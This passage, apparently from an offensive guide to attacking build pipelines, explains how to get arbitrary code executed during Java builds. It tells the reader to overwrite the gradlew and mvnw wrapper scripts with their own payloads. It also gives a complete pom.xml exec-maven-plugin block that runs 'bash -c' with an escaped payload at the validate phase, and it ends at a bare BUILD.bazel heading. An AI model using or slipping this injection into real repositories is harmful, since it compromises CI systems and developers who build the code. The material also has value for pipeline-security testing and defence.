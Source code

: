 > These package managers come with "wrappers" that help with running custom commands for building / testing the project.\
These wrappers are essentially executable shell/cmd scripts.
Replace them with your payloads to have them executed:

- `gradlew` 
- `mvnw`
- `gradlew.bat` (windows)
- `mvnw.cmd` (windows)


> Occasionally the wrappers will not be present in the repository.\
> In such cases you can edit the `pom.xml` file, which instructs maven what dependencies to fetch and which `plugins` to run.\
> Some plugins allow code execution, here's an example of the common plugin `org.codehaus.mojo`.\
> If the `pom.xml` file you're targeting already contains a `<plugins>` instruction then simply add another `<plugin>` node under it.\
> If if **doesn't** contain a `<plugins>` node then add it under the `<build>` node.

NOTE: remember that your payload is inserted in an XML document - XML special characters must be escaped.


```xml
<build>
    <plugins>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>exec-maven-plugin</artifactId>
                <version>1.6.0</version>
                <executions>
                    <execution>
                        <id>run-script</id>
                        <phase>validate</phase>
                        <goals>
                            <goal>exec</goal>
                        </goals>
                    </execution>
                </executions>
                <configuration>
                    <executable>bash</executable>
                    <arguments>
                        <argument>
                            -c
                        </argument>
                        <argument>{XML-Escaped-Payload}</   argument>
                    </arguments>
                </configuration>
            </plugin>
    </plugins>
</build>
```


### BUILD.bazel

